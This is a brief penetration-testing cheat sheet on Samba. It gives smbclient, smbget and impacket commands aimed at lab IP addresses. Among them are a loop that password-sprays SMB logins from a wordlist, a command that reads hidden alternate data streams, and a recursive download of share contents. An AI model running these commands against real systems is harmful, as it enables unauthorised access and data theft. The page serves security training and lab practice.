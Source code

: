 ```yaml
---
description: Useful Samba enumeration and exploitation
---
```


# SAMBA

## SMBCLIENT

Smbclient is a good utility tool to connect to samba shares, enumerate, download and upload files.

```bash
# List all shares
smbclient -L //10.10.10.161
```

```bash
# Access specified share using current users or Guest
smbclient \\\\10.10.10.178\\Data

# Access share with credentials
smbclient \\\\10.10.10.178\\Data -U user%password
```

```bash
# Recursively check alll the directory when using 'ls':
> recurse on
```

```bash
# Check for hidden NTFS streams inside smba share
allinfo "file.txt"
get "Debug Mode Password.txt:Password"
```

```bash
# Password spraying/brute force example
for pass in $(cat passwords.txt); do smbclient -L 10.10.10.172 -U=user%$pass; done
```

## SMBGET

wget-like utility to download files directly over SMB directly from bash.

```bash
# Recursively download all possible files from a samba share:
smbget -R  smb://10.10.10.178/share/ -U user%password
```

## SMBSHARE.PY

Impcaket script to setup a quicky samba share

```bash
smbserver.py SHARE /var/tmp/
```

## IMPACKET-SMBSERVER

impacket script to setup a samba server.

```bash
impacket-smbserver share $(pwd) -smb2support -user user -password secret
```

## Mount SAMBA shares in powershell

```bash
$pass = convertto-securestring 'secret' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DC\user', $pass)
New-PSDrive -Name share-PSProvider FileSystem -Credential $cred -Root \\10.10.10.3:\share

```

Check more powershell stuff here.

